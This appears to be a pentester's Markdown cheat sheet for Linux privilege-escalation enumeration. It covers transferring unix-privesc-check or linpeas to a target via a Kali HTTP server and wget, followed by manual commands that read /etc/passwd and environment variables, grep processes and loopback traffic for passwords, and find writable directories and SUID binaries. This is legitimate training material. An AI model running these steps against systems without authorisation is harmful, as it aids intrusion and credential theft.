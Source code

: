 # Linux Enumeration

## Automatic Enumeration

### unix-privesc-check
On Kali host:
```bash
cp /usr/bin/unix-privesc-check .
```
```bash
python3 -m http.server 80
```
On target machine:
```bash
wget http://<our IP>/unix-privesc-check
```
```bash
chmod +x unix-privesc-check
```
```bash
unix-privesc-check standard > output.txt
```
The `output.txt` file is meaty, and in standard mode it isn't complete, but it's a good start. The most obvious thing to do immediately is:
```bash
cat output.txt | grep -A 10 writable
```
This is just a quick start. Worth going over the file carefully if nothing immediately jumps out.

### linpeas
Nb. well worth repeating these steps but instead starting with:
```bash
cp /usr/share/peass/linpeas/linpeas.sh .
```

## Manual Enumeration
For fine grained/specific enumeration items see the glossary below. Hopefully a standard privesc check as detailed above should be sufficient, but in case it isn't.

### Misc.
Get context about the current user:
```bash
id
```
Enumerate users on the machine:
```bash
cat /etc/passwd
```
Enumerate the functional role of the machine:
```bash
hostname
```
OS and system version enumeration:
```bash
uname -a
```
alternatives to the same effect:
```bash
cat /etc/os-release
```
```bash
cat /etc/issue
```
Inspect environment variables:
```bash
env
```
Check the .bashrc:
```bash
cat ~/.bashrc
```

### Processes
List running processes:
```bash
ps aux
```
Search running processes for foolishness:
```bash
watch -n 1 "ps -aux | grep pass"
```

### Networking
TCP/IP information:
```bash
ifconfig a
```
Or if you happen to be prodding at a RHEL or Arch machine for some god forsaken reason:
```bash
ip a
```
Network routing information on Debian based systems:
```bash
routel 
```
or if that fails:
```bash
route
```
To see active network connections:
```bash
ss -ntplu
```
The `iptables` command is unlikely to be available to our peon-tier user by default on account of it being an admin privilege by default. However we may still be able to view some config via:
```bash
cat /etc/iptables/rules.v4
```
Some basic packet capture:
```bash
sudo tcpdump -i lo -A | grep "pass"
```
### Cronjobs
Enumerate cron jobs:
```bash
ls -lah /etc/cron*
```
and the current users scheduled jobs:
```bash
crontab -l
```
Jobs running as root will not appear when querying like this, for that run as root (although its hard to imagine when we might want to do this if we already have root...):
```bash
sudo crontab -l
```
Inspect the cron logs:
```bash
grep "CRON" /var/log/syslog
```

### Packages, Modules & Disks
Packages installed via `dpkg` (Debian package manager):
```bash
dpkg -l
```
List drives mounted at boot time:
```bash
cat /etc/fstab
```
in addition `mount` should tell us everything that's currently mounted:
```bash
mount
```
Available disks:
```bash
lsblk
```
Loaded kernel modules:
```bash
lsmod
```
For more info on a kernel module that we've taken an interest in:
```bash
/sbin/modinfo <intriguing module>
```

### File permissions
```bash
ls -l
```
Find every directory the current user can write to:
```bash
find / -writable -type d 2>/dev/null
```
Find SUID marked binaries:
```bash
find / -perm -u=s -type f 2>/dev/null
```
